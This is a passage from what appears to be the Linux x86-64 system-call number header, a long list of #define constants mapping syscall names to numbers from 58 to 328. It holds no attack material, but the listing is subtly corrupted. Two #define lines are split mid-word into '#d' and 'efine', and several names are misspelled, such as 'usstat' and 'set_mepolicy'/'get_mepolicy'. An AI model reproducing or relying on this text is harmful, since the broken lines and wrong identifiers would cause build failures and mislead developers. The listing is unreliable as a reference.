#define __NR_vfork 58
#define __NR_execve 59
#define __NR_exit 60
#define __NR_wait4 61
#define __NR_kill 62
#define __NR_uname 63
#define __NR_semget 64
#define __NR_semop 65
#define __NR_semctl 66
#define __NR_shmdt 67
#define __NR_msgget 68
#define __NR_msgsnd 69
#define __NR_msgrcv 70
#define __NR_msgctl 71
#define __NR_fcntl 72
#define __NR_flock 73
#define __NR_fsync 74
#define __NR_fdatasync 75
#define __NR_truncate 76
#define __NR_ftruncate 77
#define __NR_getdents 78
#define __NR_getcwd 79
#define __NR_chdir 80
#define __NR_fchdir 81
#define __NR_rename 82
#define __NR_mkdir 83
#define __NR_rmdir 84
#define __NR_creat 85
#define __NR_link 86
#d
efine __NR_unlink 87
#define __NR_symlink 88
#define __NR_readlink 89
#define __NR_chmod 90
#define __NR_fchmod 91
#define __NR_chown 92
#define __NR_fchown 93
#define __NR_lchown 94
#define __NR_umask 95
#define __NR_gettimeofday 96
#define __NR_getrlimit 97
#define __NR_getrusage 98
#define __NR_sysinfo 99
#define __NR_times 100
#define __NR_ptrace 101
#define __NR_getuid 102
#define __NR_syslog 103
#define __NR_getgid 104
#define __NR_setuid 105
#define __NR_setgid 106
#define __NR_geteuid 107
#define __NR_getegid 108
#define __NR_setpgid 109
#define __NR_getppid 110
#define __NR_getpgrp 111
#define __NR_setsid 112
#define __NR_setreuid 113
#define __NR_setregid 114
#define __NR_getgroups 115
#define __NR_setgroups 116
#define __NR_setresuid 117
#define __NR_getresuid 118
#define __NR_setresgid 119
#define __NR_getresgid 120
#define __NR_getpgid 121
#define __NR_setfsuid 122
#define __NR_setfsgid 123
#define __NR_getsid 124
#define __NR_capget 125
#define __NR_capset 126
#define __NR_rt_sigpending 127
#define __NR_rt_sigtimedwait 128
#define __NR_rt_sigqueueinfo 129
#define __NR_rt_sigsuspend 130
#define __NR_sigaltstack 131
#define __NR_utime 132
#define __NR_mknod 133
#define __NR_uselib 134
#define __NR_personality 135
#define __NR_usstat 136
#define __NR_statfs 137
#define __NR_fstatfs 138
#define __NR_sysfs 139
#define __NR_getpriority 140
#define __NR_setpriority 141
#define __NR_sched_setparam 142
#define __NR_sched_getparam 143
#define __NR_sched_setscheduler 144
#define __NR_sched_getscheduler 145
#define __NR_sched_get_priority_max 146
#define __NR_sched_get_priority_min 147
#define __NR_sched_rr_get_interval 148
#define __NR_mlock 149
#define __NR_munlock 150
#define __NR_mlockall 151
#define __NR_munlockall 152
#define __NR_vhangup 153
#define __NR_modify_ldt 154
#define __NR_pivot_root 155
#define __NR__sysctl 156
#define __NR_prctl 157
#define __NR_arch_prctl 158
#define __NR_adjtimex 159
#define __NR_setrlimit 160
#define __NR_chroot 161
#define __NR_sync 162
#define __NR_acct 163
#define __NR_settimeofday 164
#define __NR_mount 165
#define __NR_umount2 166
#define __NR_swapon 167
#define __NR_swapoff 168
#define __NR_reboot 169
#define __NR_sethostname 170
#define __NR_setdomainname 171
#define __NR_iopl 172
#define __NR_ioperm 173
#define __NR_create_module 174
#define __NR_init_module 175
#define __NR_delete_module 176
#define __NR_get_kernel_syms 177
#define __NR_query_module 178
#define __NR_quotactl 179
#define __NR_nfsservctl 180
#define __NR_getpmsg 181
#define __NR_putpmsg 182
#define __NR_afs_syscall 183
#define __NR_tuxcall 184
#define __NR_security 185
#define __NR_gettid 186
#define __NR_readahead 187
#define __NR_setxattr 188
#define __NR_lsetxattr 189
#define __NR_fsetxattr 190
#define __NR_getxattr 191
#define __NR_lgetxattr 192
#define __NR_fgetxattr 193
#define __NR_listxattr 194
#define __NR_llistxattr 195
#define __NR_flistxattr 196
#define __NR_removexattr 197
#define __NR_lremovexattr 198
#define __NR_fremovexattr 199
#define __NR_tkill 200
#define __NR_time 201
#define __NR_futex 202
#define __NR_sched_setaffinity 203
#define __NR_sched_getaffinity 204
#define __NR_set_thread_area 205
#define __NR_io_setup 206
#define __NR_io_destroy 207
#define __NR_io_getevents 208
#define __NR_io_submit 209
#define __NR_io_cancel 210
#define __NR_get_thread_area 211
#define __NR_lookup_dcookie 212
#define __NR_epoll_create 213
#define __NR_epoll_ctl_old 214
#define __NR_epoll_wait_old 215
#define __NR_remap_file_pages 216
#define __NR_getdents64 217
#define __NR_set_tid_address 218
#define __NR_restart_syscall 219
#define __NR_semtimedop 220
#define __NR_fadvise64 221
#define __NR_timer_create 222
#define __NR_timer_settime 223
#define __NR_timer_gettime 224
#define __NR_timer_getoverrun 225
#define __NR_timer_delete 226
#define __NR_clock_settime 227
#define __NR_clock_gettime 228
#define __NR_clock_getres 229
#define __NR_clock_nanosleep 230
#define __NR_exit_group 231
#define __NR_epoll_wait 232
#d
efine __NR_epoll_ctl 233
#define __NR_tgkill 234
#define __NR_utimes 235
#define __NR_vserver 236
#define __NR_mbind 237
#define __NR_set_mepolicy 238
#define __NR_get_mepolicy 239
#define __NR_mq_open 240
#define __NR_mq_unlink 241
#define __NR_mq_timedsend 242
#define __NR_mq_timedreceive 243
#define __NR_mq_notify 244
#define __NR_mq_getsetattr 245
#define __NR_kexec_load 246
#define __NR_waitid 247
#define __NR_add_key 248
#define __NR_request_key 249
#define __NR_keyctl 250
#define __NR_ioprio_set 251
#define __NR_ioprio_get 252
#define __NR_inotify_init 253
#define __NR_inotify_add_watch 254
#define __NR_inotify_rm_watch 255
#define __NR_migrate_pages 256
#define __NR_openat 257
#define __NR_mkdirat 258
#define __NR_mknodat 259
#define __NR_fchownat 260
#define __NR_futimesat 261
#define __NR_newfstatat 262
#define __NR_unlinkat 263
#define __NR_renameat 264
#define __NR_linkat 265
#define __NR_symlinkat 266
#define __NR_readlinkat 267
#define __NR_fchmodat 268
#define __NR_faccessat 269
#define __NR_pselect6 270
#define __NR_ppoll 271
#define __NR_unshare 272
#define __NR_set_robust_list 273
#define __NR_get_robust_list 274
#define __NR_splice 275
#define __NR_tee 276
#define __NR_sync_file_range 277
#define __NR_vmsplice 278
#define __NR_move_pages 279
#define __NR_utimensat 280
#define __NR_epoll_pwait 281
#define __NR_signalfd 282
#define __NR_timerfd_create 283
#define __NR_eventfd 284
#define __NR_fallocate 285
#define __NR_timerfd_settime 286
#define __NR_timerfd_gettime 287
#define __NR_accept4 288
#define __NR_signalfd4 289
#define __NR_eventfd2 290
#define __NR_epoll_create1 291
#define __NR_dup3 292
#define __NR_pipe2 293
#define __NR_inotify_init1 294
#define __NR_preadv 295
#define __NR_pwritev 296
#define __NR_rt_tgsigqueueinfo 297
#define __NR_perf_event_open 298
#define __NR_recvmmsg 299
#define __NR_fanotify_init 300
#define __NR_fanotify_mark 301
#define __NR_prlimit64 302
#define __NR_name_to_handle_at 303
#define __NR_open_by_handle_at 304
#define __NR_clock_adjtime 305
#define __NR_syncfs 306
#define __NR_sendmmsg 307
#define __NR_setns 308
#define __NR_getcpu 309
#define __NR_process_vm_readv 310
#define __NR_process_vm_writev 311
#define __NR_kcmp 312
#define __NR_finit_module 313
#define __NR_sched_setattr 314
#define __NR_sched_getattr 315
#define __NR_renameat2 316
#define __NR_seccomp 317
#define __NR_getrandom 318
#define __NR_memfd_create 319
#define __NR_kexec_file_load 320
#define __NR_bpf 321
#define __NR_execveat 322
#define __NR_userfaultfd 323
#define __NR_membarrier 324
#define __NR_mlock2 325
#define __NR_copy_file_range 326
#define __NR_preadv2 327
#define __NR_pwritev2 328

#endif /* _ASM_X86_UNISTD_64_H */
```